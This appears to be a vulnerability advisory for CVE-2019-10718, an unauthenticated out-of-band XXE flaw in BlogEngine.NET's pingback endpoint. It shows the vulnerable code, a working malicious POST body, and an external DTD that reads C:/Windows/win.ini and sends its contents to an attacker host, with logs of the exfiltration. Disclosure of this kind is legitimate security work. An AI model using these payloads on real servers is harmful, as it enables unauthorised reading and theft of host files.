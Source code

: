 An Out-of-band XML External Entity attack, CVE-2019-10718, exists on BlogEngine.NET versions 3.3.7 and earlier through the `/pingback.axd` endpoint.  This issue can be exploited to reveal the contents of files on the host. Authentication is not required.

## Vendor Patch

* https://github.com/rxtur/BlogEngine.NET/releases

## Timeline

* Identified: 30 Mar 2019
* Initial Developer Contact: 31 Mar 2019
* Issue Disclosed: 18 Jun 2019

## Description

The vulnerable code can be found here:

~~~{.cs command="PingbackHandler.cs"}
331:        private static XmlDocument RetrieveXmlDocument(HttpContext context)
332:        {
333:            var xml = ParseRequest(context);
334:            if (!xml.Contains("<methodName>pingback.ping</methodName>"))
335:            {
336:                context.Response.StatusCode = 404;
337:                context.Response.End();
338:            }
339:
340:            var doc = new XmlDocument();
341:            doc.LoadXml(xml);
342:            return doc;
343:        }
~~~

The string `<methodName>pingback.ping</methodName>` must appear in the body of the request; the XML resolver is not set so External Entities can be processed.

An unauthenticated user can submit a `POST` containing a malicious XML body such as:

~~~
POST /pingback.axd HTTP/1.1
Host: <r:var>$RHOST</r:var>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 134

<?xml version="1.0"?>
    <!DOCTYPE foo SYSTEM "http://<r:var>$LHOST</r:var>/ex.dtd">
    <foo>&e1;</foo>
<r:b><methodName>pingback.ping</methodName></r:b>
~~~

<pagebreak></pagebreak>

The malicious XML instructs the parser to request a DTD (document type definition) from an external host:

~~~
<r:var>$RHOST</r:var> - - [01/Apr/2019:16:34:40 -0600] "GET /ex.dtd HTTP/1.1" 200 326 "-" "-"
~~~

The external DTD is then parsed and instructs the application to read a local file:

~~~{command="ex.dtd"}
<!ENTITY % p1 SYSTEM "file:///C:/WINDOWS/win.ini">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://<r:var>$LHOST</r:var>/EX?%p1;'>">
%p2;
~~~

The contents of the local file, `C:/WINDOWS/win.ini` in the example, are then sent in a subsequent request to the attacker:

~~~
<r:var>$RHOST</r:var> - - [01/Apr/2019:16:34:40 -0600] "GET /EX?;<r:b>%20for%2016-bit%20app%20support%0D%0A[fonts]%0D%0A[extensions]%0D%0A[mci%20extensions]%0D%0A[files]%0D%0A[Mail]%0D%0AMAPI=1%0D%0A[MCI%20Extensions.BAK]%0D%0A3g2=MPEGVideo%0D%0A3gp=MPEGVideo%0D%0A3gp2=MPEGVideo%0D%0A3gpp=MPEGVideo%0D%0Aaac=MPEGVideo%0D%0Aadt=MPEGVideo%0D%0Aadts=MPEGVideo%0D%0Am2t=MPEGVideo%0D%0Am2ts=MPEGVideo%0D%0Am2v=MPEGVideo%0D%0Am4a=MPEGVideo%0D%0Am4v=MPEGVideo%0D%0Amod=MPEGVideo%0D%0Amov=MPEGVideo%0D%0Amp4=MPEGVideo%0D%0Amp4v=MPEGVideo%0D%0Amts=MPEGVideo%0D%0Ats=MPEGVideo%0D%0Atts=MPEGVideo</r:b> HTTP/1.1" 404 438 "-" "-"
~~~

## Exploit

The exploit available at <https://github.com/irbishop/CVEs/blob/master/2019-10718/exploit.py> attempts to request the contents of specified files (or `C:/Windows/win.ini` by default). It then writes the files to the current folder:

~~~{command="C_Windows_win.ini"}
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
~~~
